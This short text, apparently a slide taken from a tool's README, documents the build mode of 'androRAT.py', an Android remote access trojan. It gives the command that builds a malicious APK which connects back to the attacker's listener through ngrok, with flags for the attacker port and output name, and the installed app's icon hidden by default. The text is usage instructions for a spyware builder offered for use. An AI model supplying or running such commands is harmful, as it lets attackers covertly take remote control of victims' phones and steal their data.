

# Build Mode
To build the apk using ngrok which will also set the listener:
python3 androRAT.py --build --ngrok [flags]
Flags:
-p, –port Attacker port number (optional by default it’s set to 8000)
-o, –output Name for the apk file (optional by default it’s set to “karma.apk”)
-icon, –icon Visible icon after installing apk (by default it’s set to hidden)
Example: python3 androRAT.py --build --ngrok -o attacker.apk